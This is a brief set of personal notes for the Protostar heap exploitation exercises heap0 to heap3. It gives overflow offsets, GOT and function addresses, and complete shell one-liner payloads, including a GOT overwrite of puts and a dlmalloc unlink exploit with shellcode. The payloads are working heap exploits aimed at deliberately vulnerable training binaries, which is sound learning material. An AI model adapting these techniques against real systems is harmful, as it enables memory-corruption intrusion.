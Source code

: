 # Protostar heap-overflow notes

I've noticed that a lot of well documented writeups are present for protostar and decided to instaad post a cliff-notes version for this and upcoming ones. A bunch of useful [References](#References)

### Heap \#0
Generated good ol' string using pattern_create for 140
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5A6

gbb shows segfault at 0x41346341 which is 72

attack payload: 

	./heap0 `python -c 'print "A" * 72 + "\x64\x84\x04\x08"'`

use ` not ' . **huge difference!!**

### Heap \#1
Did overflow with pattern_create
exact match at 20
Winner location at 0x08048494

Basically there is a printf funnction after strcpy but kept as puts
overwrite with GoT table address and then and point to winner()

put address is 08049774

	./heap1 `python -c "print 'A' * 20 + '\x74\x97\x04\x08' +' ' + '\x94\x84\x04\x08'"`

overwrite the address of argv[2] with GoT table's jump to puts(). Then second strcpy call will move address of winner() and overwrite the puts address
when printf is called we get winner

### Heap \#2

differene between auth and service is 0x10 or 16 bytes.
if u do serviceXXXXXXXXXXXXXXXXX [which x= 17 bytes] u get overflow and get int auth initialized to a specific value X. Then the check will pass.

Another way is use after free

### Heap \#3
FOLLOW DOUG MALLOC articles
In gdb:  

	r AAA `python -c 'print "B"*32 + "\xfc\xff\xff\xff" + "\xf0"'` CCCCDDDDEEEE
Now we can see that after B we overflow next chunk wiht fc which is basically previous chunk size of -4 and kept f0 which means chunk is in use.

Seg fault when trying to copy edx into eax  

	mov eax+12,edx  
	DDDD <<< EEEEE

0x804b128 - 0xc = 0x804b11c  for puts function address which has been adjusted to compensate for assembly

Final Payload:
    
    ./heap3 `python -c 'print "AAAA" + "\xeb\x06" + "\x90"*6 + "\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "B"*16 + "\x01"*4 + "\xff"*4 + "B"*8 + "\xfc\xff\xff\xff" + "\xf0\xff\xff\xff"'` `python -c 'print "CCCC"+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"'`

## References

